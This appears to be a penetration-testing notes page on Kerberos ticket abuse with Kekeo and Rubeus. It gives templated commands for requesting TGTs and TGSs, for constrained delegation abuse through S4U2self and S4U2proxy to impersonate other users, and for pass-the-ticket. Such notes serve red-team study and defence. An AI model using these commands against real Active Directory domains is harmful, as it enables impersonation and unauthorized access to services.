 # kekeo/rubeus

### Resources

1. **Rubeus**

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u" %}

2. **Kekeo**

{% embed url="https://github.com/gentilkiwi/kekeo" %}

3. **S4U2self and S4U2proxy**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13" %}

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a" %}



For each of the following sections, I aim to provide the equivalent commands in **Kekeo** and **Rubeus** (some of the sections may only have examples in one tool).

### 1. Request for Ticket Granting Ticket (TGT)

```powershell
kekeo # tgt::ask /user:<user> /domain:<domain> /password:<password>
C:\> rubeus.exe /user:<user> /password:<password>
```

* For rubeus, if `/password` is used instead of a hash, `/enctype:X` will default to RC4 for the exchange, with `des|aes128|aes256` as options

### 2. Request for Ticket Granting Service (TGS)

```powershell
C:\> rubeus.exe asktgs /ticket:<ticket> /service:<servicename>
```

### 3. Constrained delegation abuse: Service for User (S4U)

```
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:<servicename>
```

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u" %}

From the Rubeus S4U documentation page link above, we can find a few examples:

#### a. S4U2self

{% code overflow="wrap" %}
```powershell
C:\> rubeus.exe s4u /user:<username> /rc4:<rc4_hash> /impersonateuser:<user_to_impersonate>
```
{% endcode %}

* `/rc4`: rc4 hash of the user associated with `/user`
  * The TGT  for an account with a _**msds-allowedtodelegateto**_ permission can be used instead (`/ticket:X`)
* `/impersonateuser` : compulsory parameter to specify the user we plan to obtain a service ticket on behalf for

From this command, we will obtain the following:

1. A TGT for the user specified in `/user`&#x20;
2. A TGS for the user specified in `/impersonateuser`&#x20;

* Using the [**S4U2self** ](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13)extension: the service account can use the TGS obtained to authenticate to itself (or more specifically, the service it is running) on behalf of the user specified in `/impersonateuser`&#x20;

#### b. S4U2proxy

{% code overflow="wrap" %}
```powershell
C:\> rubeus.exe s4u /ticket:<TGT> /msdsspn:<SPN> /tgs:<TGS>
```
{% endcode %}

* `/ticket` : TGT obtained from the previous step
* `/mdsspn` : Service Principal Name (SPN)
  * This value must be listed under the `msds-allowedtodelegateto` property for the service account (supplied to the `/user` field in the previous step)
* `/tgs` : The forwardable ticket retrieved from the previous step (S4U2self ticket for the user specified in `/impersonateuser`_)_

From this command, we obtain a TGS for the impersonated user (specified in `/impersonateuser`) to the service defined in `/msdsspn`.

Next, we can use the TGS we have obtained to authenticate to the service (defined in `/mdsspn`) as our desired user:

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#ptt" %}

```powershell
C:\> rubeus.exe ptt /ticket:TGS
```

or by supplying the `/ptt` flag to the s4u command.



{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94" %}






